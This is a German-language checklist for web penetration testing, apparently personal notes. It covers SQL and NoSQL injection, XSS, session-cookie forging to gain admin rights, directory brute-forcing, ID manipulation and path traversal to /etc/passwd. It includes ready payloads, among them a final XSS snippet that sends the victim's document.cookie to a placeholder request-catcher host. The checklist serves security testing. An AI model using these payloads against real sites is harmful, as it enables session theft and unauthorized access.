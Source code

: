 ## Checkliste Web-Pentesting
1. Passive & Active Scan mit OWASP ZAP / Mit Authentication und Proxy

2. Nach SQLi suchen
	- sqlmap
	`sqlmap.py -u [POST-GET-URL] --dbs`
	
	- Zeichen Injection
	`'` `;` `&&`
	[SQLi Cheat Sheet (1)](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
	[SQLi Cheat Sheet (2)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

	- No-SQL-Attack-Suite
	`python3 nosql-login-bypass.py -t [POST-URL] -u customer0 -p compass`
	
	- NoSQLi Bypass Login
	`{"$ne": 0}`
	`{"$ne": -1}`
	`{"$gt":""}`

3. Nach XSS-Schwachstellen suchen
	- Manuelle Injection mit `<script>alert(document.domain)</script>`
	- Manuelle Injection mit `</textarea><script>alert(document.domain)</script>`
	- Automatisierte Injection mit [traxss](https://www.geeksforgeeks.org/traxss-automated-xss-vulnerability-scanner/)
	`python3 traxss.py`
	`python3 xsstrike.py -u [URL]`

4. Session Cookie admin flag prüfen
	- Session Cookies beginnen meist mit `ey`
	- Cookiename behinhaltet meistens Session
	- In ZAP nach Login das Session Cookie abrufen / Oder in Browser Console
	![[CleanShot 2022-09-28 at 09.55.23.png]]
	- Prüfen ob Session Cookie nach Login / Logout ändert
	- Prüfen ob Session Cookie einfach verschlüsselt ist ([CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')))	
	- Wenn Session Cookie entschlüsselbar versuchen admin Flag zu setzen
		- Meist `role:user` > `role:admin`  oder `admin:0` > `admin:1` 
	- Session Cookie über Browser Console eingeben oder direkt im Storage teil editieren `document.cookie="_sess=eyJ1c2VybmFtZSI6ImxlZXRoYWNrZXIiLCJhZG1pbiI6MX0="`
	![[CleanShot 2022-10-27 at 20.34.55.png]]

5. Mit dirbuster / gobuster Website auf versteckte Verzeichnise Scannen 
	`dirb [URL] [WORDLIST]`
	`gobuster dir -u [URL] -w [WORDLIST]`

6. Testen ob Seiten existieren
	- 403 / 404 kann Hinweis geben ob Seite existiert oder nicht (Beispiel ob User-Profil existiert oder nicht)
	- Testen auf Userprofile Seite wenn vorhanden

7. HTML Source Code checken
	- Kommentare mit Test Username / Links
	- Eingesetzte Software (-version)

8. URL prüfen
	- URL manipulieren. Beispiel ID ändern:
		`http://localhost:2501/updateblog?id=7`
	
	- POST-URL manipulieren
		![[CleanShot 2022-10-26 at 21.13.50.png]]
	
	- Path Traversal / Local file Inclusion (Auf versteckte Dateien prüfen)
	`http://localhost:2501/../../../../../../../etc/passwd`
	`http://localhost:2501/app.php?page=../../../../../../etc/passwd`

9. Berechtigung auf Unterseiten testen
	- Testen ob der Zugriff auf gewisse URLs auch als nicht berechtigter User oder Besucher funktioniert
	- Testen ob geschützte Ressourcen / Bilder / Artikel von unprivilegierten Benutzern angesehen werden können (Rechtsklick > URL kopieren > In Incognito Fenster öffnen)

10. Testen auf Fehlermeldungen
	- Zuviele Details in Fehlermeldungen können als Sicherheitslücke bewertet werden

## Tipps
- Persisten Log in Browser Network Console aktivieren
![[CleanShot 2022-10-13 at 20.32.05.png]]

- Session Cookie in Browser ändern (Browser Tools > Storage > Nach "session" suchen)
![[CleanShot 2022-10-30 at 20.00.46.png]]

- Cookie an Request Catcher senden (XSS)
```
<script>document.location="[URL-Request-Catcher]?cookie=" + document.cookie;</script>
```